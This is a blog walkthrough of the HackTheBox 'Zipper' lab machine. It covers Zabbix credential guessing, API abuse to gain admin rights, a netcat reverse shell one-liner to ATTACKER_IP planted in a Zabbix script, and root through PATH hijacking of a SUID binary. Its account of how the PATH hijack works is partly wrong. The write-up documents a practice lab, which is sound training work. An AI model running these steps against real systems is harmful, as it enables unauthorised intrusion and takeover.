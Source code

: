 ```yaml
---
layout: post
title: HackTheBox - Zipper
categories: htb
permalink: /htb-zipper
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/zipper/infocard.png)

Starting off with a nmap scan to determine open ports, thus a potential attack vector!

![Nmap]({{ site.baseurl }}/assets/htb-images/access/NmapScan.jpg)

Nmap showed me that port 80 and 22 are open so I was going to access the web server, but since the header of the nmap for port 80 output says: “It Works” I assumed that I will see the default page of apache, so I went straight to use dirbuster and check for folders and files on the webserver!

![dirsearch]({{ site.baseurl }}/assets/htb-images/zipper/dirsearch.jpg)

Running dirbuster on the server, I found an interesting folder “/zabbix”.So when I entered it, it prompted me with a login page and more interestingly, I was able to login as guest user, which would be very helpful when I enumerate the web app to try to find a potential vulnerability, or potential username or password. After some inspection of the web app, I found that the developer had made a small writing mistake which let me determine that the mistake could be a potential username. The mistake which the developer made was that he accidently typed “Zapper” instead of Zipper which gave me the clue. I found this in the “Trigger” section of the web app and by tweaking the options I was able to find it.

![Zapper-Mistake]({{ site.baseurl }}/assets/htb-images/zipper/Zapper-Mistake.jpg)

Now I went to try and guess the username and password, so that I can login to the Zabbix web app and enumerate more and try to find a way to get into the system. After several attempts to guess the password, I was able to login as user Zapper.

```
#User Zapper credentials
Username: Zapper
Password: zapper
```

When I tried to login with the credentials, the web app output showed me that the GUI was disabled and after a short search in the zabbix documentation I saw that I can use the API of Zabbix, “api_jsonrpc”, to enable the web gui and proceed forward. I wrote a simple python script to enable that function.

![WEBGUIDisabled]({{ site.baseurl }}/assets/htb-images/zipper/WEBGUIDisabled.jpg)

Here is the script I wrote:

![getcookiecode2]({{ site.baseurl }}/assets/htb-images/zipper/getcookiecode2.png)

The first part of the code shows that I will connect as user Zapper and will get cookie for this user, notice that “auth” is set to None because I didn't know the cookie yet, but when I run the script it will show it to me. The second part of the code is where the script will tell Zabbix program to add user Zapper in the “Zabbix Super Admin” group, which will allow me to get access to the web GUI.

![enableguicode]({{ site.baseurl }}/assets/htb-images/zipper/enableguicode.jpg)

After I got the cookie from the function “get_auth”, I  had to place it where “auth”:"" line is in the function “get_wgui” which in the second part of the code will enable the web GUI. This will tell the Zabbix Web app that we are logging in as Zapperwho will be placed in the zabbix super admin group. So lastly, once the the python script is ran, the output will be this.

![enableguiloginin]({{ site.baseurl }}/assets/htb-images/zipper/enableguiloginin.jpg)

After I logged in, I noticed two new options in the main page, from which, one of them was the Administration section! I enumerated the administration section and that showed me that user zapper is able to write and execute scripts, so I thought this could lead to a RCE. I saw that there was a PING script and I edited it !The scripts section was under:
> Administration->Scripts->Ping

```
#Reverse shell command
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 1234 >/tmp/f
```

After I editted the Ping script, I went again to the “Trigger” section and I clicked on Zabbix, which showed me a menu to execute a script, I pressed on Ping and I got reverse shell !

![revshell]({{ site.baseurl }}/assets/htb-images/zipper/revshell.jpg)

When I got the reverse shell, I noticed that the hostname of the machine is a bit weird, so I thought I may have a reverse shell in a docker instance. Now, I had to escape it and I also noticed that when I set the code execution to run through zabbix server, I get a reverse shell in docker, but when I set the code to be executed as zabbix agent, I get a reverse shell in the main system but its very unstable, and I am kicked out in 5 - 10 seconds. I had to think of any way to escape that and get a stable connection in the main system.So I thought why don't I try to upgrade it to TTY shell using python and see if the shell will stay stable. Because the machine didn't have python 2 install, I had to use python 3.

```
#Python tty shell spawn command
$ python3 -c ‘import pty;pty.spawn("/bin/bash")'
```

Luckily, this helped me to keep my shell open and stable. I just had to copy & paste the command quckily before the shell died. So to get a stable shell in the main system outside docker, I had to do the same for docker.

![stableshell]({{ site.baseurl }}/assets/htb-images/zipper/stableshell.jpg)

Now it was time to enumerate what users are available on the system. There was another user available in the system which is "zapper".

![zapperuser]({{ site.baseurl }}/assets/htb-images/zipper/zapperuser.jpg)

I had to escalate to zapper user before I could get root ! I searched in the system, but I wasn't able to find anything else except a bash script called “backup.sh” in /home/zapper/utils/. This script gave me a password to work with after running "cat" command on it. The script was only doing a backup of the files and scripts of zabbix web app and was saving them as 7z file in /backups/ folder. I tried to find anything interesting in the folder but there was nothing even after extracting the 7z file, so I thought I could try to login as user zapper with `su -l` using the password which I found in backup.sh script. This worked !

![zappershell]({{ site.baseurl }}/assets/htb-images/zipper/zappershell.jpg)

I now checked for the SSH keys of user zapper, I grabbed them and logged in with SSH. Doing another enumerating of the box I found that in folder utils in /home/zapper/, there was a script called “zabbix-service” which was owned by user root and had SUID. This meant that I would be able to run it as root without having to use sudo. This was interesting ! Running cat on the file showed me gibberish, so I used strings command instead. This showed me something interesting.

![stringszabbix-service]({{ site.baseurl }}/assets/htb-images/zipper/stringszabbix-service.jpg)

The script was actually starting the zabbix-agentd.service using systemctl. How could I exploit this ? Well, the other interesting part was that in the script, systemctl wasn't set with its' full path, so I could exploit that by setting a system variable. So now systemctl would be seen in 2 different folders and run twice by the script because it wouldn't know which path exactly to use, so it will use both.
I created a file “systemctl” in the folder /home/zapper/utils/ and wrote inside “/bin/bash” and saved the file. When I exported the path to systemctl file which I created in /home/zapper/utils/, I set the permissions of the newly created file to 777 and checked to see if the system could see the file in the home folder of zapper. Now I just had to run the script and get root !

![roottaken]({{ site.baseurl }}/assets/htb-images/zipper/roottaken.jpg)

That's the box Zipper from HackTheBox !
